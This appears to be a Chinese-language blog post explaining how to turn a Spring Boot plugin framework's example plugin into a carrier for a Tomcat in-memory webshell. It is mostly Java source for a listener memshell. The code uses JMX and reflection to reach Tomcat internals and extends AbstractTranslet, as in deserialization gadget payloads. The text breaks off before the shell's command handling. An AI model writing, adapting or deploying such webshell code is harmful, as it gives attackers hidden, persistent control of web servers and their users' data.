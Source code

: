 https://gitee.com/xiongyi01/springboot-plugin-framework-parent

直接按照项目自带的例子删掉没用的加上内存马就行。

```java
package com.basic.example.plugin1;

import com.sun.jmx.mbeanserver.NamedObject;
import com.sun.jmx.mbeanserver.Repository;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.modeler.Registry;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.management.DynamicMBean;
import javax.management.MBeanServer;
import javax.management.ObjectName;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.http.HttpSession;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Scanner;
import java.util.Set;

public class TomcatListenerMemShellFromJMX extends AbstractTranslet implements ServletRequestListener {
    static {
        System.out.println("Listener loaded!"); //测试用
        try {
            MBeanServer mbeanServer = Registry.getRegistry(null, null).getMBeanServer();
            Field field = Class.forName("com.sun.jmx.mbeanserver.JmxMBeanServer").getDeclaredField("mbsInterceptor");
            field.setAccessible(true);
            Object obj = field.get(mbeanServer);

            field = Class.forName("com.sun.jmx.interceptor.DefaultMBeanServerInterceptor").getDeclaredField("repository");
            field.setAccessible(true);
            Repository repository = (Repository) field.get(obj);

            Set<NamedObject> objectSet = repository.query(new ObjectName("Catalina:host=localhost,name=NonLoginAuthenticator,type=Valve,*"), null);
            if (objectSet.size() == 0) {
                // springboot的jmx中为Tomcat而非Catalina
                objectSet = repository.query(new ObjectName("Tomcat:host=localhost,name=NonLoginAuthenticator,type=Valve,*"), null);
            }

            for (NamedObject namedObject : objectSet) {
                DynamicMBean dynamicMBean = namedObject.getObject();
                field = Class.forName("org.apache.tomcat.util.modeler.BaseModelMBean").getDeclaredField("resource");
                field.setAccessible(true);
                obj = field.get(dynamicMBean);

```